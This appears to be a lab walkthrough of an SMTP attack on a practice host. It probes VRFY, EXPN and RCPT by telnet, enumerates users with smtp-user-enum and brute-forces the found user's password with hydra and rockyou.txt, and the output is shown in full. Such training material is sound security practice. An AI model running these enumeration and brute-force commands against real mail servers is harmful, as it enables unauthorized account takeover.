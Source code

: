 ```
$ telnet 10.129.134.169 25
Trying 10.129.134.169...
Connected to 10.129.134.169.
Escape character is '^]'.
220 WIN-EASY ESMTP
helo 10.129.134.169
250 Hello.
VRFY bob
502 VRFY disallowed.
EXPN bob
503 Bad sequence of commands
MAIL FROM:test@example.com
250 OK
RCPT TO: test@example.com
530 SMTP authentication is required.
```

Neither VRFY or EXPN work, however the RCPT TO might method work. Let's use smtp-user-enum to try and bruteforce some usernames.

```
└─$ smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t 10.129.134.169
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... RCPT
Worker Processes ......... 5
Usernames file ........... users.list
Target count ............. 1
Username count ........... 79
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ inlanefreight.htb

######## Scan started at Thu Jan 30 22:51:22 2025 #########
10.129.134.169: fiona@inlanefreight.htb exists
######## Scan completed at Thu Jan 30 22:51:27 2025 #########
1 results.

79 queries in 5 seconds (15.8 queries / sec)
```

Awesome! The user `fiona` is valid. Let's use hydra and try and bruteforce her password.

```
┌──(kali㉿DESKTOP-JETQH0C)-[~/attackingcmnsrvcs]
└─$ hydra -l fiona@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt -f smtp://inlanefreight.htb
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-01 09:28:17
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking smtp://inlanefreight.htb:25/
[25][smtp] host: inlanefreight.htb   login: fiona@inlanefreight.htb   password: 987654321
[STATUS] attack finished for inlanefreight.htb (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-01 09:28:23
```